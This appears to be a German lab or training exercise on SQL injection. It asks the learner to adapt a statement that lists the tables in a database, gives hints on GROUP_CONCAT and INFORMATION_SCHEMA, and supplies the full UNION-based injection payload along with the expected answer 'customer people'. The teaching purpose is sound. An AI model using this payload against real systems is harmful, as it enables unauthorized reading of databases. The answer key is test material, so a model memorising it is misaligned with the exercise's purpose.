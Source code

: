 Modifizieren Sie das Statement erneut, um die Namen der Tabellen in der Datenbank herauszufinden.

Tipp:
Sie benötigen die Funktion `GROUP_CONCAT()` sowie Metadaten aus der View `INFORMATION_SCHEMA.TABLES`.

Tipp 2:
https://chartio.com/learn/databases/using-information-schema-views-to-check-to-see-if-table-exists-in-sql-server/

Statement:
' AND 1=0 UNION SELECT (SELECT GROUP_CONCAT(table_name) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'advanced_db'), MD5('pass'), 1, 1;--

>>4) Welche Tabellen befinden sich in der Datenbank? Geben Sie die Tabellennamen in alphabetisch aufsteigender Sortierung und durch Leerzeichen getrennt an.<<
     === customer people
